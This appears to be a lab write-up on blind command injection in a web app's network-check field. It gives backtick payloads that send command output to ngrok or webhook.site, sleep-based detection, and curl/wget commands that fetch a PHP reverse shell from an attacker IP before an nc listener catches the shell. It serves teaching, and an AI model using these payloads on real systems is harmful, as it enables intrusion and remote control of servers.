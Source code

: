 
## **Overview**

This vulnerability do not provide immediate or direct feedback to the attacker about the success or failure of their malicious actions. In other words, the attacker is "blind" to the results of their actions because they do not receive immediate feedback or error messages that would typically indicate whether their attack was successful or not.


## **Practicals**

### **Enumeration**

#### **Using Ngrok**

- Testing out our first payload `127.0.0.1; ls #` we can see that our `;` is been filtered out and we don't have results 


![](https://i.imgur.com/Ke3g2zP.png)


- Start up `Ngrok` with 

```bash
$ ngrok http 80
```

- Navigate back to our website and paste in your **ngrok** link

![](https://i.imgur.com/uso5sve.png)

- Now copy your ngrok link again, navigate to our website and paste in the link in the **Network check** bar as follow and click submit:

```
https://14f0-2c0f-f5c0-600-338b-fc7-aa19-f5d5-d3a.ngrok-free.app?`COMMAND-GOES-HERE`
```

![](https://i.imgur.com/LnDUrOf.png)

- Navigate to the web interface of `ngrok` and our command should have been executed

![](https://i.imgur.com/wjpLyvn.png)


![](https://i.imgur.com/9hBTOMo.png)

#### **Using sleep**

**Note :** we can also use the the `sleep` command to check if we have blind Command injection
  
```HTML
# web-app will sleep for 10 seconds
https://tcm-sec.com?`sleep 10`

# web-app will sleep for 25 seconds
https://tcm-sec.com?`sleep 25`
```


**_Web app will sleep for 50 seconds_**


![](https://i.imgur.com/wGi2LjV.png)



#### **Using webhook.site**

- navigate to [https://webhook.site](https://webhook.site)
- Copy your **Unique URL**

![](https://i.imgur.com/VH4EBGc.png)

- Paste as follow to the website

```
https://webhook.site/22162abb-7ad5-4f92-8410-c57c37baad72?`COMMAND-GOES-HERE`
```


![](https://i.imgur.com/1KTjvSG.png)

- Navigating back to [webhook.site](https://webhook.site) we have `www-data`

![](https://i.imgur.com/bkceoUk.png)

> **Note :** After each URL always add a question mark (?) and back tick (``), Don't Forget !!



### **Exploitation**

- Start up a python server

```bash
$ python3 -m http.server 80
```

- Use **Wappalyzer** to check for web technology , so we can determine our reverse shell type, In my case it is `PHP`

![](https://i.imgur.com/Ju3RG9F.png)


- Navigate to [revshells.com](https://revshells.com) , Input your IP and preferred PORT, select your reverse shell type then click the save Icon 💾

![](https://i.imgur.com/DXSZZAG.png)


- Save your reverse shell file to where you started up your python server earlier

![](https://i.imgur.com/vdHpp5c.jpg)


- Start up your listener using netcat - `nc -lvnp 4444`
- Now navigate to the website and upload your shell using `curl` or `wget`

```HTML
# for CURL
127.0.0.1?`curl 192.168.0.157:443/shell.php > /var/www/html/shell.php`

# for WGET
127.0.0.1?`wget 192.168.0.157:443/shell.php`
```

- Open up a new tab on that website and type in - **http://URL/shell.php**, where URL is the website address and then shell.php , is the name of the malicious PHP file we uploaded. 


![](https://i.imgur.com/DjCCOqp.png)


- Navigating back to our listener we have a shell on the target system


![](https://i.imgur.com/YyozVz2.png)

